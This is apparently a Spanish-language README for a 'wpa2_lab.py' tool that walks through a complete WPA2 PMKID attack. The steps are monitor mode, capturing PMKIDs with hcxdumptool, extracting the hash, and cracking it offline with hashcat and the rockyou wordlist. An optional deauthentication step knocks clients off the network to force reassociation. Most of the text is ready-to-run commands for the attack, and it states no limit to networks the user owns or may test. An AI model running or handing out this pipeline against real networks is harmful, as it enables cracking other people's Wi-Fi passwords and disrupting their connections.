

## Objetivo
Sin desconectar al cliente, capturar la PMKID que el punto de acceso (AP) 
envía durante cada asociación y crackearla sin conexión.

## Requisitos
- Python 3.x  
- `wpa2_lab.py` (este repositorio)  
- Adaptador Wi-Fi capaz de modo monitor  
- Herramientas externas:
  - `hcxdumptool` (incluye `hcxpcaptool`)
  - `hashcat` (v6.2 o superior)  
- Diccionario de contraseñas (ej. `/usr/share/wordlists/rockyou.txt`)  
- Permisos de super-usuario para operaciones con interfaz Wi-Fi  

## Instalación rápida
Clonar el repositorio y situarse en la carpeta:

```bash
git clone https://github.com/tu-usuario/wpa2lab.git
cd wpa2lab
```

Asegúrate de que `wpa2_lab.py` sea ejecutable:

```bash
chmod +x wpa2_lab.py
```
Opcional: crea un venv y activalo antes de instalar requisitos. 

```bash
source venv/bin/activate 
```

## Uso exprés (menú interactivo)

Lanza el menú gráfico:

```bash
sudo ./wpa2_lab.py
```


Un flujo típico sería 1 → 4 → 5 → 6 → 7.
(Monitor → Scan → Capture → Extract → Crack).

## Guía de uso exprés con comandos

### 1. Poner la tarjeta en modo monitor

```bash
sudo ./wpa2_lab.py prepare 
```
###  Levantar AP en wlan

```bash
sudo ./wpa2_lab.py ap 
```

### 2. Capturar la PMKID

```bash
sudo ./wpa2_lab.py capture
# Capturando PMKID en wlan1mon → dump.pcapng
# (Pulsa Ctrl-C para detener la captura)
```

Esto genera un archivo `dump.pcapng` con todas las asociaciones 
AP↔cliente y los PMKID correspondientes.

### 3. Extraer el hash para Hashcat

```bash
sudo ./wpa2_lab.py extract
# Extrae hash → hash.22000
```

Internamente se ejecuta:

```bash
hcxpcaptool -z hash.22000 dump.pcapng
```

### 4. Crackear sin conexión

```bash
sudo ./wpa2_lab.py crack
```

Que lanza automáticamente:

```bash
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt
```

## 5. Ataque de desautenticación (opcional)

Si no hay tráfico y ningún cliente se asocia al AP, puedes forzar una 
reasociación enviando paquetes de desautenticación:

```bash
sudo ./wpa2_lab.py deauth
```
Esto envía paquetes deauth al objetivo seleccionado, provocando que
los clientes se desconecten y vuelvan a asociarse, momento en el cual
el AP volverá a enviar el PMKID (ideal para capturarlo).

## ¿Cómo funciona el ataque de diccionario?
Hashcat recorre cada contraseña del fichero elegido (en el ejemplo 
`rockyou.txt`) y calcula la clave maestra necesaria para verificar si 
coincide con el hash PMKID extraído.  
Si la clave WPA2 de la red está dentro del diccionario, Hashcat la
descubrirá y la mostrará en pantalla.

## Archivos generados
- **dump.pcapng** – Captura de tráfico con PMKID  
- **hash.22000**  – Hash listo para Hashcat (formato modo 22000)

## Opciones adicionales
Todos los subcomandos aceptan `-h / --help` para ver parámetros 
opcionales como interfaz de captura, canal, salida personalizada, 
métodos de ataque, etc.
